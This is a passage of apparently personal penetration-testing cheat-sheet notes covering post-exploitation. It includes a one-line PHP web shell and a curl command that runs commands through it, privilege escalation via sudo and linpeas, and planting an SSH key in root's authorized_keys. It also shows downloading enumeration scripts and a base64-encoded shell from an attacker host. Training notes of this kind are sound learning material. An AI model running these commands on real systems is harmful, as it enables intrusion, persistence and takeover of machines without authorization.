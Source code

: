 | echo "<?php system(\$_GET['cmd']);?>" > /var/www/html/shell.php | Create a webshell php file |
| curl http://SERVER_IP:PORT/shell.php?cmd=id | Execute a command on an uploaded webshell |
| Privilege Escalation |  |
| ./linpeas.sh | Run linpeas script to enumerate remote server |
| sudo -l | List available sudo privileges |
| sudo -u user /bin/echo Hello World! | Run a command with sudo |
| sudo su - | Switch to root user (if we have access to sudo su) |
| sudo su user - | Switch to a user (if we have access to sudo su) |
| ssh-keygen -f key | Create a new SSH key |
| echo "ssh-rsa AAAAB...SNIP...M= user@parrot" >> /root/.ssh/authorized_keys | Add the generated public key to the user |
| ssh root@10.10.10.10 -i key | SSH to the server with the generated private key |

[https://lolbas-project.github.io/#](https://lolbas-project.github.io/#)

contains a list of windows app which we may be able to leverage to perform certain functions.

- **Exposed Credentials → in log files ,** (`bash_history` in Linux and `PSReadLine` in Windows)
- **SSH Keys → checking if we have read access in .ssh directory, if we have read accesss we can read the id_rsa and use it to login
. if we have write access to `.ssh` we can place our public key**
    
    `ssh-keygen -f key`
     this gives two file (`key` and `.pub`) , we use key to login (ssh -i) and `.pub` is kept in target machine in `.ssh/authorized_keys` folder
    
- Check for cronjobs
    1. `/etc/crontab`
    2. `/etc/cron.d`
    3. `/var/spool/cron/crontabs/root`
    
    # Transferring Files
    
    | Transferring Files |  |
    | --- | --- |
    | python3 -m http.server 8000 | Start a local webserver |
    | wget http://10.10.14.1:8000/linpeas.sh | Download a file on the remote server from our local machine |
    | curl http://10.10.14.1:8000/linenum.sh -o linenum.sh | Download a file on the remote server from our local machine |
    | scp linenum.sh user@remotehost:/tmp/linenum.sh
    scp /path/to/local/file username@hostname:/path/to/remote/directory | Transfer a file to the remote server with scp (requires SSH access) |
    | base64 shell -w 0 | Convert a file to base64 |
    | echo f0VMR...SNIO...InmDwU | base64 -d > shell | Convert a file from base64 back to its orig |
    | md5sum shell | Check the file's md5sum to ensure it converted correctly |